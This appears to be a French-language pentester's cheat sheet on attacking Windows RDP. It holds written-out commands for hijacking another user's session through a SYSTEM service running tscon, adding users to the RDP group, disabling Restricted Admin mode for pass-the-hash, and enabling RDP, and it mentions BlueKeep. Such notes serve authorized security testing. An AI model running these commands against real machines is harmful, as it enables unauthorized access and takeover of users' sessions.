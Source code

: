 
- [ ] [[#1. Bruteforce]]
- [ ] [[#2. Session Hijacking (SYSTEM priv)]]
- [ ] [[#3. Pass The Hash Pass The Hash (PtH) XFREERDP]]
- [ ] [[#4. Ajouter un user au groupe RDP]]
- [ ] [[#5. CVEs]]


---

# 1. Bruteforce

[[Bruteforce en ligne#RDP]]


---

# 2. Session Hijacking (SYSTEM priv)

> [!IMPORTANT]
> Ejecte l'utilisateur de la session

Afficher les sessions

```Powershell
query user
```

Création du service 'sessionhijack'

```Powershell
sc.exe create sessionhijack binpath= "cmd.exe /k tscon <id_cible> /dest:<OUR_SESSION_NAME>"
```

Exécution du service

```cmd-session
net start sessionhijack
```


---

# 3. Pass The Hash [[Pass The Hash (PtH)#XFREERDP]]


---

# 4. Ajouter un user au groupe RDP


```cmd
net localgroup "Remote Desktop Users" UserLoginName /add
```

Désactiver le Restricted Admin Mode sur la target

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

---

# 5. Activer RDP sur machine


https://www.airdroid.com/quick-guides/powershell-enable-rdp/

```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0
```

```
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```



---
# 6. CVEs


## BlueKeep ([CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708))

Use After Free

> [!IMPORTANT]
> Peut causer des BSOD

## SYSTÈMES AFFECTÉS

- Windows 2003
- Windows 7
- Windows Server 2008
- Windows Server 2008 R2
- Windows Vista
- Windows XP